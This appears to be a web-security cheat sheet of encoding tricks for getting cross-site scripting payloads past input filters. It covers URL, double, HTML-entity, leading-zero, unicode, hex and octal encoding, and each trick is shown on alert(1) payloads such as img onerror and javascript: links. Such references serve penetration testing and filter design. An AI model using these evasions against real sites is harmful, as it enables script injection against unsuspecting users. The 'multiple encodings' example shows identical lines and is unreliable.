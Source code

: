 ### Encode as URL

```http2
/?search=Fish & Chips
```


```http2
/?search=Fish+%26+Chips
```

### Double encoding as URL

| Character | Percent encoded | Double encoded  |
| --------- |:---------------:| ---------------:|
|     <     |       %3C       |      %253C      |
|     >     |       %3E       |      %253E      |
|     /     |       %2F       |      %252F      |

### HTML encoding

```html
<img src=x onerror="alert(1)">
```

```html
<img src=x onerror="&#x61;lert(1)">
```

### Leading zeros

```html
<a href="javascript:alert(1)">Click me</a>
```

HTML Encoding: ":"

```html
<a href="javascript&#058;alert(1)">Click me</a>
```

Add zeros

```html
<a href="javascript&#00000000000058;alert(1)">Click me</a>
```

### Unicode escaping

```js
eval("alert(1)")
```

```js
eval("\u0061lert(1)")
```

https://dencode.com/string/unicode-escape

### ASCII Hex encoding

```js
eval("alert")
```

```js
eval("\x61lert")
```

Prefixed with \x

### ASCII Octal encoding

```js
eval("alert")
```

```js
eval("\141lert")
```

Prefixed with \

### Multiple encodings

```html
<a href="javascript:alert(1)">Click me</a>
```

```html
<a href="javascript:alert(1)">Click me</a>
```

https://onlinestringtools.com/convert-string-to-octal

#### References:

https://portswigger.net/web-security/reference/obfuscating-attacks-using-encodings

https://subscription.packtpub.com/book/networking-and-servers/9781785284588/1/ch01lvl1sec11/double-encoding
